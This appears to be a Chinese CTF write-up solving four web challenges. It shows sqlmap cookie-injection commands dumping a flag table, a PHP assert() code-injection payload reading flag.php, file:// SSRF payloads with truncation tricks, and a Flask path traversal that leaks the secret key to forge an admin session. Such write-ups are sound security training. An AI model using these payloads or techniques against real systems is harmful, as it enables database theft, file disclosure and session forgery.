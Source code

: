# web_wp

## BBSQLI

### 0x00

此题有两种做法（请教了营里两个大佬）,sqlmap的cookie注入或者盲注

以下是sqlmap的方法，找了一份sqlmap使用教程

[sqlmap使用教程](https://www.cnblogs.com/ichunqiu/p/5805108.html)

### 0x01

第一步，cookie注入猜解表

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --table --level 2
```

注：如有选择Y or n,一路n即可

发现一个带有flag字样的表

![BBSQLI_01](images/BBSQLI_01.png)

第二步，根据表猜解字段

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --columns -T [GDJM_flag] --level 2
```

![BBSQLI_02](images/BBSQLI_02.png)

ok,flag基本在这了

第三步，猜解字段内容

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --dump -T [GDJM_flag] -C "flag" --level 2
```

![BBSQLI_03](images/BBSQLI_03.png)

## makeit

源码泄露的利用，这里有一个自动检查源码泄露的插件

[SensInfo Finder](https://github.com/sqvds/sensinfor)

之后用githack将源码down下来

```PHP
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

这段php代码是有问题的，构造payload

```
http://202.112.51.184:15080/?page=' and die(file_get_contents('templates/flag.php')) or '
```

完成之后语句如下

```PHP
assert("strpos('' and die(file_get_contents('templates/flag.php')) or '', '..') === false") or die("Detected hacking attempt!");
```

读出flag.php的源码

![makeit_01](images/makeit_01.png)

其他payload

```
http://202.112.51.184:15080/?page=' and die(show_source('templates/flag.php')) or '
```



## simple ssrf

此题就是简单的考察一下file协议

payload

```
file://www.baidu.com/etc/flag.txt%00
```

```
file://www.baidu.com/etc/flag.txt#
```

经过测试，因为最后有个/，所以payload最后要有截断符

当输入框为

```
https://www.baidu.com/
```

执行后

![ssrf_01](images/ssrf_01.png)

hint提示flag在etc/flag.txt,由于限制前面只能是www.baidu.com,也无所谓了，file是本地文件协议前面写啥都是读取本地文件

![ssrf_02](images/ssrf_02.png)

## sshop

此wp作者为同营小伙伴

- 推荐使用pycharm进行代码审计   

------

下载源码后，本地打开，全局搜索“flag”，发现就是这么真实：

```python
# 用户信息
@users.route('/')
def user():
    if not login_status_check():
        return redirect(url_for('users.login'))
    flag = open('./flag').read() if is_admin() else False
    username = session.get('username')
    user = User.query.filter_by(username=session.get('username')).first()
    return render_template('user.html', user=user, flag=flag, current_user=1)
```

直接访问根目录，如果满足is_admin()条件，那么就从flag文件中读出flag并输出。查看is_admin()函数的定义：

```python
def is_admin():
    if login_status_check():
        return session['admin']
    else:
        return False
```

检查session中的admin参数，也就是这里只要session['admin']中有个值，不是false就行。全局搜索session['admin']，发现另外用到session['admin']的地方就只有下面这一个：

```python
@users.route('/login', methods=['POST', 'GET'])
def login():
    Login_error = False
    if request.method  == 'POST':
       
        user = User.query.filter_by(username=request.form.get('username')).first()
        if not user or user.password != request.form.get('password'):
            Login_error = u'用户名或密码错误'
            return render_template("login.html", Login_error=Login_error)
        else:
            session['id'] = user.id
            session['username'] = user.username
            session['admin'] = False
            return redirect(url_for('users.user'))
    return render_template("login.html")
```

对，就只有这么个破地方用到了。然后想了一个多小时如何篡改session['admin']中的值。。祭出Google，发现flask中的session是存在本地的，而且如果我自己要生成一个session，我唯一需要的就是一个secret_key，所以我们要做的就是想办法拿到那个secret_key。从头到尾又看一遍代码，发现了生成secret_key的地方：

```python
# config.py
with open('.secret_key', 'a+b') as secret:
    secret.seek(0)
    key = secret.read()
    if not key:
        key = randstr(32)
        secret.write(key)
        secret.flush()
```

发现它会把secret_key写入到一个静态文件中。这就很微妙了，为啥要写入一个到一个文件中。。直接生成一个不就好了？同时，又有另外一个微妙的函数：

```python
@users.route('/asserts/<path:path>')
def static_handler(path):
    filename = os.path.join(app.root_path,'asserts',path)
    if os.path.isfile(filename):
        return send_file(filename)
    else:
        abort(404)
```

于是，我们只要构造/asserts/../../.secret_key，就能拿到了secret_key了，这里有个坑，必须用burp抓包，在包里面改路径，或者是用burp的Repeater。或许你会突然想到，都这样了，还拿啥.secret_key，直接拿flag不就好了？对，我也是这么想的，卡了好一会儿后，发现：

```python
    @app.before_request
    def waf():
        if 'flag' in request.url:
            abort(403)
```

好吧，老老实实一步一步来。基本思路，在本地伪造好session后，抓包修改，get flag。其实，这里不用本地把环境复现一遍，只需要写几行代码构造一下。啊，然而我并不知道flask存session的格式是啥，一心想要flag的我懒得研究了。

- 改login()函数中的session['admin']
- 改config.py中的secret的值
- 似乎某几个地方还有bug，改一改就行
- 本地没flag文件似乎要报错，随便写一个进去就好
- 缺啥库python -m pip install 装啥库
- 收工~